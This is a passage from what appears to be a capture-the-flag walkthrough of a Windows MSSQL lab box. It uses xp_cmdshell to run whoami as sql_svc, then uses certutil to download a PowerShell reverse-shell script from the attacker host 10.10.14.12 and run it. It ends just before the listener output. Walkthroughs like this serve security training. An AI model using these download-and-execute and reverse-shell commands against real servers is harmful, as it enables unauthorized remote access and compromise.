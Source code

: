 <br />

And run a command:

<br />

```bash
SQL (sa  dbo@master)> xp_cmdshell whoami
output           
--------------   
sequel\sql_svc   

NULL
```

<br />

Commands run under the context of the `sql_svc` user.

<br />

### Uploading a PowerShell Reverse Shell:

<br />

Now that we can run commands on the system, it's time to gain an interactive shell.

One straightforward approach is to upload a `reverse.ps1` payload:

<br />

```bash
SQL (sa  dbo@master)> xp_cmdshell "certutil -urlcache -split -f http://10.10.14.12/reverse.ps1 C:\Users\sql_svc\Desktop\reverse.ps1"
output                                                
---------------------------------------------------   
****  Online  ****                                    

  0000  ...                                           

  026f                                                

CertUtil: -URLCache command completed successfully.   

NULL      
```

<br />

Executing it with `PowerShell`:

<br />

```bash
SQL (sa  dbo@master)> xp_cmdshell "powershell -File C:\Users\sql_svc\Desktop\reverse.ps1"
```

<br />

Finally, we check our listener:
